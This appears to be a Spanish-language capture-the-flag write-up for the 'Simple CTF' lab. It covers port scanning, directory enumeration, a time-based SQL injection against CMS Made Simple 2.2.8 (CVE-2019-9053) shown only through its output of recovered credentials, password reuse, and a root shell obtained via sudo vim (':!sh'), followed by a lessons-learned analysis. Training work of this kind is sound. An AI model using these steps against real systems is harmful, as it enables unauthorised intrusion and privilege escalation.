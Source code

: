 # Simple CTF
## Initial Scan
```
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```
## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301)
```
##### Simple

Este endpoint es una instalacion de CMS Made Simple, si prestamos atención al contenido vemos lo siguiente
```
 This site is powered by CMS Made Simple version 2.2.8
```
Con esto ya tenmos la version exacta y resulta que existe una vuln hasta la versiojn 2.2.10 del CMS que permite ejecutar una time based sqli en el servicio para recuperar las credenciales del administrador

## Exploit
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
Con esta contraseña podemos acceder tanto al CMS como a la propia máquina ya que se reutilizo la contraseña en mas servicios

## Privesc
```us
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
Con esto escalamos de la siguietne manera 
```
$ sudo /usr/bin/vim	
> :!sh
```
# Analisís de la intrusión
### CVE 2019-9053 
El servicio web usaba un CMS con una vulnerabilidad de SQLi Time Based que nos permite conocer la contraseña del admin
### Bad Password policie
Las contraseña usada por el administrador esta en los principales diccionarios de contraseñas 
### Password Reutilization
La contraseña usada para el CMS es la misma que para el usuario, lo que implico que al comprometer el CMS se comprometiera el sitema entero
### Provilegd vim execution
El usaurio mitch puede ejecutar vim con privilegios de sudoer, esto permite spawnear una shell como root escanalando asi privilegios
